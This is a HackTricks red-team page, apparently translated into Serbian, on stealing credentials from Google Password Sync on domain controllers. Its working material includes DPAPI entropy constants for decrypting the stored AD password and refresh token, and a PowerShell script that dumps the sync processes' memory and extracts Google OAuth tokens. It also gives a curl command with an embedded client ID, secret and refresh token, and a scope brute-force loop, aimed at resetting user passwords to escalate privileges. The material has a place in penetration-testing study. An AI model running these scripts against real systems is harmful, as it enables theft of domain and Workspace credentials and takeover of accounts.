 # GPS - Google Password Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

Ovo je binarni fajl i servis koji Google nudi kako bi **održao sinhronizovane lozinke korisnika između AD** i Workspace-a. Svaki put kada korisnik promeni svoju lozinku u AD-u, ona se postavlja na Google.

Instalira se u `C:\Program Files\Google\Password Sync` gde možete pronaći binarni fajl `PasswordSync.exe` za konfiguraciju i `password_sync_service.exe` (servis koji će nastaviti da radi).

### GPS - Configuration

Da biste konfigurisali ovaj binarni fajl (i servis), potrebno je **omogućiti mu pristup Super Admin principalu u Workspace-u**:

* Prijavite se putem **OAuth** sa Google-om i onda će **sačuvati token u registru (kriptovan)**
* Dostupno samo na kontrolerima domena sa GUI
* Dati neke **akreditivе Servisnog naloga iz GCP-a** (json fajl) sa dozvolama za **upravljanje korisnicima Workspace-a**
* Veoma loša ideja jer ti akreditivi nikada ne isteknu i mogu se zloupotrebiti
* Veoma loša ideja dati SA pristup preko workspace-a jer bi SA mogao biti kompromitovan u GCP-u i moguće je prebaciti se na Workspace
* Google to zahteva za kontrolisane domene bez GUI
* Ovi akreditivi se takođe čuvaju u registru

Što se tiče AD-a, moguće je naznačiti da koristi trenutni **kontekst aplikacija, anonimno ili neke specifične akreditive**. Ako je opcija akreditiva izabrana, **korisničko ime** se čuva unutar fajla na **disku** a **lozinka** je **kriptovana** i čuva se u **registru**.

### GPS - Dumping password and token from disk

{% hint style="success" %}
Napomena da [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) može da detektuje **GPS**, dobije informacije o konfiguraciji i **čak dekriptuje lozinku i token**.
{% endhint %}

U fajlu **`C:\ProgramData\Google\Google Apps Password Sync\config.xml`** moguće je pronaći deo konfiguracije kao što je **`baseDN`** AD-a koji je konfigurisan i **`username`** čiji se akreditivi koriste.

U registru **`HKLM\Software\Google\Google Apps Password Sync`** moguće je pronaći **kriptovani refresh token** i **kriptovanu lozinku** za AD korisnika (ako ih ima). Štaviše, ako se umesto tokena koriste neki **SA akreditivi**, takođe je moguće pronaći te kriptovane u toj adresi registra. **Vrednosti** unutar ovog registra su dostupne samo **Administratorima**.

Kriptovana **lozinka** (ako je ima) se nalazi unutar ključa **`ADPassword`** i kriptovana je koristeći **`CryptProtectData`** API. Da biste je dekriptovali, morate biti isti korisnik kao onaj koji je konfigurisao sinhronizaciju lozinki i koristiti ovu **entropiju** prilikom korišćenja **`CryptUnprotectData`**: `byte[] entropyBytes = new byte[] { 0xda, 0xfc, 0xb2, 0x8d, 0xa0, 0xd5, 0xa8, 0x7c, 0x88, 0x8b, 0x29, 0x51, 0x34, 0xcb, 0xae, 0xe9 };`

Kriptovani token (ako ga ima) se nalazi unutar ključa **`AuthToken`** i kriptovan je koristeći **`CryptProtectData`** API. Da biste ga dekriptovali, morate biti isti korisnik kao onaj koji je konfigurisao sinhronizaciju lozinki i koristiti ovu **entropiju** prilikom korišćenja **`CryptUnprotectData`**: `byte[] entropyBytes = new byte[] { 0x00, 0x14, 0x0b, 0x7e, 0x8b, 0x18, 0x8f, 0x7e, 0xc5, 0xf2, 0x2d, 0x6e, 0xdb, 0x95, 0xb8, 0x5b };`\
Štaviše, takođe je kodiran koristeći base32hex sa rečnikom **`0123456789abcdefghijklmnopqrstv`**.

Vrednosti entropije su pronađene korišćenjem alata. Konfigurisano je da prati pozive ka **`CryptUnprotectData`** i **`CryptProtectData`** i zatim je alat korišćen za pokretanje i praćenje `PasswordSync.exe` koji će dekriptovati konfigurisanju lozinku i auth token na početku, a alat će **prikazati vrednosti za korišćenu entropiju** u oba slučaja:

<figure><img src="../../../.gitbook/assets/telegram-cloud-photo-size-4-5782633230648853886-y.jpg" alt=""><figcaption></figcaption></figure>

Napomena da je takođe moguće videti **dekriptovane** vrednosti u ulazu ili izlazu poziva ovih API-ja takođe (u slučaju da u nekom trenutku Winpeas prestane da radi).

U slučaju da je Password Sync **konfiguran sa SA akreditivima**, takođe će biti sačuvani u ključevima unutar registra **`HKLM\Software\Google\Google Apps Password Sync`**.

### GPS - Dumping tokens from memory

Baš kao i sa GCPW, moguće je dump-ovati memoriju procesa `PasswordSync.exe` i `password_sync_service.exe` i moći ćete da pronađete refresh i access tokene (ako su već generisani).\
Pretpostavljam da biste takođe mogli pronaći konfiguracione akreditive AD-a.

<details>

<summary>Dump <code>PasswordSync.exe</code> and the <code>password_sync_service.exe</code> processes and search tokens</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Show EULA if it wasn't accepted yet for strings
$stringsPath

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$processNames = @("PasswordSync", "password_sync_service")
$chromeProcesses = Get-Process | Where-Object { $processNames -contains $_.Name } | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}
```
</details>

### GPS - Generisanje pristupnih tokena iz osvežavajućih tokena

Korišćenjem osvežavajućeg tokena moguće je generisati pristupne tokene koristeći ga i ID klijenta i tajnu klijenta navedene u sledećoj komandi:
```bash
curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
https://www.googleapis.com/oauth2/v4/token
```
### GPS - Scopes

{% hint style="info" %}
Imajte na umu da čak i sa refresh token-om, nije moguće zatražiti bilo koji scope za access token jer možete zatražiti samo **scope-ove koje podržava aplikacija u kojoj generišete access token**.

Takođe, refresh token nije važeći u svakoj aplikaciji.
{% endhint %}

Podrazumevano, GPS neće imati pristup kao korisnik svim mogućim OAuth scope-ovima, pa možemo koristiti sledeći skript da pronađemo scope-ove koji se mogu koristiti sa `refresh_token` za generisanje `access_token`:

<details>

<summary>Bash skript za brute-force scope-ove</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

I ovo je izlaz koji sam dobio u vreme pisanja:
```
https://www.googleapis.com/auth/admin.directory.user
```
Koji je isti kao onaj koji dobijate ako ne navedete nikakav opseg.

{% hint style="danger" %}
Sa ovim opsegom možete **izmeniti lozinku postojećeg korisnika kako biste eskalirali privilegije**.
{% endhint %}

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podrška HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
